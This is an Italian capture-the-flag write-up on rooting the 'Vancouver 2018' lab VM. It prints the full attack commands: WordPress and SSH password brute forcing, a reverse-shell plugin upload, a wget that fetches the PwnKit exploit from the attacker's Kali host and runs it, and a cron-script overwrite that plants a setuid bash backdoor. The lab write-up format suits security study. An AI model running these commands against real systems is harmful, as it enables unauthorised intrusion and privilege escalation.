

# 🛡️ **Vancouver 2018 Exploitation Report**

## 📋 **Descrizione Generale**
Questa relazione racconta le quattro giornate intense di lavoro spese per sfruttare ogni singolo punto debole della VM assegnata. Non è stato un processo lineare, e spesso mi sono trovato a pensare di essermi incastrato in un vicolo cieco, ma alla fine ogni tentativo, errore e intuizione ha portato alla tanto desiderata shell **root**.

Questa storia è una combinazione di ostinazione, pazienza e, soprattutto, l'arte di sfruttare le vulnerabilità in posti che inizialmente sembravano insignificanti.

---

## ⚙️ **Configurazione dell'Ambiente**
1. **Importazione e Avvio della VM**:
   - Ho iniziato importando la VM in **VirtualBox/VMware**. L'avvio sembrava andare liscio, ma la vera battaglia stava per cominciare.

2. **Identificazione IP**:
   - Con una scansione rapida di rete usando **Nmap**, ho trovato l'indirizzo della macchina:
     ```bash
     nmap -sn 192.168.1.0/24
     ```
   - L'indirizzo IP della macchina target è emerso chiaramente: `192.168.1.170`.

---

## 🔍 **Fase di Scansione e Accesso Iniziale**

### 1️⃣ **Scansione delle Porte e Servizi**
Partiamo dalla base. Ho eseguito una scansione con **Nmap**, che mi ha rivelato un paio di servizi attivi:
- **Porta 80 (HTTP)**: un classico, un servizio web era in agguato.
- **Porta 21 (FTP)**: qualcosa di interessante da esplorare più a fondo.

Era solo l'inizio, ma già sapevo che FTP avrebbe rivelato qualcosa.

---

### 2️⃣ **Accesso FTP e la Prima Sorpresa**
Con un accesso FTP anonimo (chi è che lascia FTP così?), ho trovato il file **`users.txt.bk`**. 
Non è stato nulla di speciale, solo una lista di nomi utente, ma qui la pazienza è la chiave. Ogni pezzetto di informazione conta.

---

### 3️⃣ **WordPress: L'Inizio del Divertimento**
Inizialmente, con **Gobuster** non ero riuscito a individuare nulla di interessante. Tuttavia, controllando il file **robots.txt**, ho trovato un riferimento nascosto alla directory **/backup_wordpress**. 

Una volta scoperta questa directory, ho iniziato a mettere le mani nel servizio WordPress.

Per enumerare gli utenti e testare combinazioni di password comuni, ho lanciato **WPScan** con il mio token (inserirò un comando più generico senza token):
   ```bash
   wpscan --url http://192.168.1.170/backup_wordpress --enumerate u --passwords rockyou.txt
   ```

Dopo lunghi minuti di attesa, ecco la combinazione perfetta:
- **Username**: `john`
- **Password**: `enigma`

Con queste credenziali, ho avuto accesso al pannello di WordPress. Qui ho caricato un **plugin malevolo** contenente una reverse shell. Finalmente, **www-data** era mio. Ma con un utente di basso livello, cosa potevo fare?

---

## 🔒 **Cracking dell'SSH Tramite Hydra**
La shell **www-data** sembrava una strada chiusa. (Ma più tardi eheh ci arriveremo) 
Prima di arrendermi in realtà con tutto quanto dalla frustrazione, ho deciso di provare un attacco **Hydra** sul servizio SSH usando la lista di utenti recuperati con poche speranze, finché mi imbatto in anne.

```bash
hydra -l anne -P /usr/share/wordlists/rockyou.txt -t 64 -V ssh://192.168.1.170
```

**EUREKA**:
- **Password**: `princess`

Con queste credenziali, ho effettuato il login SSH:
   ```bash
   ssh anne@192.168.1.170
   ```

A questo punto, la sorpresa: `anne` aveva i privilegi di **sudo** abilitati. Con un semplice comando:
   ```bash
   sudo su
   ```
   
Avevo ottenuto l'accesso **root** senza dover fare altro. Ma, ironia della sorte, non ho voluto fare **assolutamente nulla** con questo accesso root. 
Ho chiuso l'accesso SSH e sono tornato alla mia reverse shell caricata tramite  WordPress dove ero user di basso privilegio.

---

# 🏆 **Escalation dei Privilegi Alternativa**

E' stato qui che ho deciso di intraprendere nuove strade **SENZA AUTENTICAZIONE** che mi permettessero di raggiungere l'obiettivo, informandomi dunque sulle vulnerabilità della macchina target decisi di affrontare **PwnKit**. Ho sbattuto la testa nel tentativo di **compilare l'exploit** direttamente sulla macchina target e anche da Kali con le dipendenze necessarie teoricamente corrette. Dopo svariati errori e tentativi falliti, ho abbandonato l'idea della compilazione e sono passato alla soluzione più pratica: usare l'exploit **precompilato**.

---

### 1️⃣ **Kernel Exploit - PwnKit (CVE-2021-4034)**
Avevo sentito parlare di **PwnKit**. Era il momento di metterlo alla prova. 
Dopo aver scaricato il precompilato 32 bit:

1. Ho avviato un server HTTP sulla mia macchina Kali:
   ```bash
   python3 -m http.server 8080
   ```
2. Ho scaricato l'exploit precompilato sul target:
   ```bash
   wget http://192.168.1.165:8080/PwnKit32 -O /tmp/PwnKit32
   chmod +x /tmp/PwnKit32
   ```
3. Ho eseguito l'exploit:
   ```bash
   ./PwnKit32
   ```
4. **Magia pura**. Una volta eseguito, avevo accesso **root**:
   ```bash
   whoami
   ```
   **Output**: `root`.


---

### 2️⃣ **Cron Job Exploit: L'Ultimo Colpo**
Per non farmi mancare nulla, già di mio sospettavo di cron jobs vulnerabili, dunque in seguito a indagine mirata ho individuato un cron job che eseguiva lo script **`/usr/local/bin/cleanup`** come **root**, ma con permessi **world-writable**. 

Ho pensato: "Wow, è stato lì tutto questo cazzo di tempo" e "It was him, it was him since the beginning".

1. Ho modificato lo script per creare una **backdoor**:
   ```bash
   echo "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash" > /usr/local/bin/cleanup
   ```
2. Ho forzato l'esecuzione del cron job:
   ```bash
   /usr/local/bin/cleanup
   ```
3. Il risultato? Una shell **root** con **SetUID**:
   ```bash
   /tmp/rootbash -p
   ```


---

## 🎯 **Conclusione**
Quattro giorni di lavoro, frustrazioni, caffè e ore perse a guardare uno schermo, ma alla fine è stato tutto ripagato.

### **Lezioni Imparate**:
- **Ogni piccolo dettaglio conta**. Un file FTP dimenticato può essere la chiave di tutto.
- **Non fermarsi ai primi ostacoli**. La shell **www-data** sembrava un vicolo cieco, ma invece ha aperto altre strade.
- **Mai sottovalutare i cron job**. Permessi sbagliati possono essere devastanti.
- **Verificare sempre i privilegi utente**. A volte la soluzione è più semplice di quanto sembri.
- **La pratica batte la teoria**. Saper aggirare problemi come compilazioni fallite è parte del gioco.


Questo lavoro è stato una vera battaglia contro la macchina, ma alla fine ho vinto e mi sono divertito un mondo!



🎉 **Missione Completata con Successo!** 🚀

